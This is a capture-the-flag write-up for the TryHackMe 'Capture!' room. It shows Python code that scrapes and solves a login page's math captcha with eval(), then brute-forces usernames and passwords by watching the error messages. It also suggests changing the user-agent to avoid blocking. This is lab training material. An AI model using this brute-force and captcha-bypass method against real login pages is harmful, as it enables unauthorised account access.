



# [Capture!](https://tryhackme.com/room/capture)


### Before starting download the task file which contains the username and password list.

When we visit the webpage we see a login form and if we try to submit any detail rapidly it gives a Captcha.



**VERY SECURE CAPTCHA**

When we try to brutforce we need to keep in mind the captcha i.e. we need to scrape it and send it with next request.

When we send the correct captcha we see



We can use the following code snipit to solve the captcha.

```python
soup = BeautifulSoup(response.text, "html.parser")
form = soup.find("form")
direct = form.find_all(string=True, recursive=False)
cleaned_text = [text.strip() for text in direct if text.strip()]
ans = eval(cleaned_text[0].replace(" = ?", ""))
```

So first let us loop over all the username and find which doesnt has `does not exist` in response

```python
u = open('./usernames.txt')
u = u.read().split('\n')

payload = {"username": "not", "password": "matters"}
response = requests.post( url, headers=headers, data=payload, verify=False, allow_redirects=True)

{{ CAPTCHA SOLVER SHOWN ABOVE }}

for un in u:
    payload = {"username": un, "password": "a", "captcha":ans}
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=True)
    if("does not exist" not in response.text):
        print(un)
        break
    {{ CAPTCHA SOLVER SHOWN ABOVE }}
```

**Note:** Header is optional, i thought it may block python as user-agent and used some other. If it blocks your code try adding header.

When we enter the correct username in the browser we see



So now we need to check for which password it doesnt show `Invalid password`

You can use the above code and replace the file with password file, put correct username in username field and put variable in password field.

You can print both and when you use that in browser you get the flag.....

*This is my first writeup, sorry if it was confusing...*
